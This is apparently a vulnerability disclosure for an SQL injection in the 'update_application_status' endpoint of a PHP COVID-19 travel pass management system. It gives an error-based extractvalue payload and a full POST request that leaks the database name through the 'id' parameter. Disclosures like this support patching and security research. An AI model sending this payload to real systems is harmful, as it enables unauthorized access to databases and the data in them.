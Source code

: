 # covid-19-travel-pass-management-system v1.0 has SQL injection

vendors: https://www.sourcecodester.com/php/15308/covid-19-travel-pass-management-system-phpoop-free-source-code.html

Date: 2022-05-07

Vulnerability File: /ctpms/classes/Master.php?f=update_application_status

Vulnerability location:/ctpms/classes/Master.php?f=update_application_status, id

[+] Payload: 1'and/**/extractvalue(1,concat(char(126),database()))and' // Leak place ---> id

Tested on Windows 10, XAMPP

```
POST /ctpms/classes/Master.php?f=update_application_status HTTP/1.1
Host: 192.168.2.106
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------4024160998608039623756913069
Content-Length: 335
Origin: http://192.168.2.106
Connection: keep-alive
Referer: http://192.168.2.106/ctpms/admin/?page=applications/view_application&id=1
Cookie: PHPSESSID=0389fublnj7ggho8q04fuvfaqe

-----------------------------4024160998608039623756913069
Content-Disposition: form-data; name="id"

1'and/**/extractvalue(1,concat(char(126),database()))and'
-----------------------------4024160998608039623756913069
Content-Disposition: form-data; name="status"

1
-----------------------------4024160998608039623756913069--

```

![](https://github.com/mikeccltt/badminton-center-management-system/blob/main/sql.gif?raw=true)

